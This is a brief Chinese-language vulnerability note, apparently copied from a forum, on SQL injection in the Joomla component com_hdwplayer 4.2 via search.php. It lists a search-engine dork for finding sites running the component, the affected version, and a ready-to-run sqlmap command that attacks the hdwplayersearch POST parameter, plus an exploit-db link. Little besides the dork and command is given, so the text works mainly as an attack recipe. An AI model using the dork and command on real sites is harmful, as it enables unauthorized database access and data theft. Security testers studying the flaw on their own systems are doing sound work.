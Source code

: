 # Joomla! com_hdwplayer 4.2 - 'search.php' sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3001](https://www.zhihuifly.com/t/topic/3001)

# Joomla com_hdwplayer 4.2 - 'search.php' sql注入

## 一、漏洞简介

关键字:inurl:"index.php?option=com_hdwplayer"

## 二、漏洞影响

com_hdwplayer 4.2

## 三、复现过程

```
python ./sqlmap.py -u "http://127.0.0.1/joomla/index.php" --method=POST --random-agent --data "option=com_hdwplayer&view=search&hdwplayersearch=xxx" --level=5 --risk=3 --dbms=mysql -p hdwplayersearch 
```

## 参考链接

> https://www.exploit-db.com/exploits/48242